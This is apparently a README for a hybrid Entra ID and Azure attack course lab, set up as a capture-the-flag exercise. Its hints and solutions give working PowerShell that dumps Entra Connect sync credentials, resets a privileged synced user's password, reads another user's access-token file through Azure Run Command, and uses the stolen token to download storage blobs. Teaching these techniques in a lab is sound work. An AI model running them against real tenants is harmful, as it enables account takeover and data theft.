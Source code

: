 # LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (when asked, login using the ENTRA CREDS (!) - you will be asked twice)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!)
    $tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -TenantID $tenantId
    ```
    Ignore errors such as "*cannot be created because function capacity 4096 has been exceeded for this scope*"..

2. RDP login to Win11 VM using the YOURDOMAIN\\**user1**, then run the following script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
    keep this window open in the background - **you're not allowed to use it from now on**

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

![entire_path](entire_path.png)
    1. Pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -TenantId $tenant.TenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is logged into that Win 11 vm, and he's a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant's attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
As we learned, roadrecon writes a file with the access token called `.roadtools_auth`, we can take that access token and steal it!

1. Login to portal.azure.com as user2
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\users\user1\desktop\.roadtools_auth`


If the file is empty, then make sure `user1` is logged in properly:
1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)
3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)
4. if there's still an issue, restart the vm and login again
5. if it's still empty, rerun the task scheduler ![runTask](runTask.png)
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired access token, what can you do?
    You may use your own PC / DC VM
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Recon as that user and see what he has access to..

```powershell
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user1@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId  $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId  $userUPN -TenantId $tenantId -AccessToken $at 

# If it doesn't work, verify the access token— if it has expired, renew it by:
$refreshToken = <the refresh token from the `roadtools_auth` file>
$at=Get-AADIntAccessTokenWithRefreshToken -ClientId "1b730954-1685-4b74-9bfd-dac224a7b894" -Resource "https://graph.windows.net" -TenantId $tenantId -RefreshToken $refreshToken
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List current user's Azure Role Assignments using Azure PowerShell

$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this user has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
# Recon as that user and see what he has access to..
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user1@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId $userUPN -TenantId $tenantId -AccessToken $at 

# If it doesn't work, verify the access token— if it has expired, renew it by:
$refreshToken = <the refresh token from the `roadtools_auth` file>
$at=Get-AADIntAccessTokenWithRefreshToken -ClientId "1b730954-1685-4b74-9bfd-dac224a7b894" -Resource "https://graph.windows.net" -TenantId $tenantId -RefreshToken $refreshToken

# List current user's Azure Role Assignments using Azure PowerShell
$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal user2 identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources + the App Registration and its Enterprise App